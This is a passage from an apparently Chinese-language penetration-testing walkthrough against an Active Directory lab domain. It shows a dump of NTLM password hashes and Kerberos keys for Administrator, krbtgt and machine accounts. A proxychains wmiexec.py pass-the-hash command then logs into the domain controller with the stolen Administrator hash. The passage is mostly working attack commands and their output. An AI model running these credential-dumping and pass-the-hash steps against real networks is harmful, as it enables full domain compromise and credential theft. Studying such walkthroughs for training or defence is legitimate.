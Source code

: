 ```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:81220c729f6ccb63d782a77007550f74:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b20eb34f01eaa5ac8b6f80986c765d6d:::
sec123.cnk\cnk:1108:aad3b435b51404eeaad3b435b51404ee:83717c6c405937406f8e0a02a7215b16:::
AD01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SERVER2012$:1109:aad3b435b51404eeaad3b435b51404ee:2b9b6e1af2888d0ac86ee19375bf7f0e:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:ec150c0499e85cbe28564794889d443a573ec0d52124f0244edcd84e82d366fb
krbtgt:aes128-cts-hmac-sha1-96:2e09e8b4a4599c9d8a5fe20241e5a199
krbtgt:des-cbc-md5:79a404137ff440f1
sec123.cnk\cnk:aes256-cts-hmac-sha1-96:b3beca060a69eaa1605f5eeb1071e9246bbdb7dbc1e1b36d7e581bc0eb99bc18
sec123.cnk\cnk:aes128-cts-hmac-sha1-96:6f7290694acb2ab9c0258e28297eeb65
sec123.cnk\cnk:des-cbc-md5:08e023677c29b63b
AD01$:aes256-cts-hmac-sha1-96:8dd6247d4a338326980fb1bc9ff1947a2e830ec4619ca3f82b5c3a04c22a9a9d
AD01$:aes128-cts-hmac-sha1-96:37710a53f5338f1e47707d7784b5cee8
AD01$:des-cbc-md5:e9f140b3f297f2bf
SERVER2012$:aes256-cts-hmac-sha1-96:b3fa56f1f664833512d67cd25d0a46d2bbaaeabb6f8a9274aa852697227a39be
SERVER2012$:aes128-cts-hmac-sha1-96:096ee0570f75b38ceb7fb7a4ad3e7f50
SERVER2012$:des-cbc-md5:1ca4048551daf81f
[*] Cleaning up... 
```

### 使用 wmiexec.py 或者 psexec.py 登录域控

这里同样别忘了代理。

```
proxychains4 python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:81220c729f6ccb63d782a77007550f74 sec123/Administrator@10.10.10.139
```

<img src=".\图片\5abc2add7a175f4cbc32bc1ee7c3a9e1.png" alt="5abc2add7a175f4cbc32bc1ee7c3a9e1" style="zoom:67%;" />
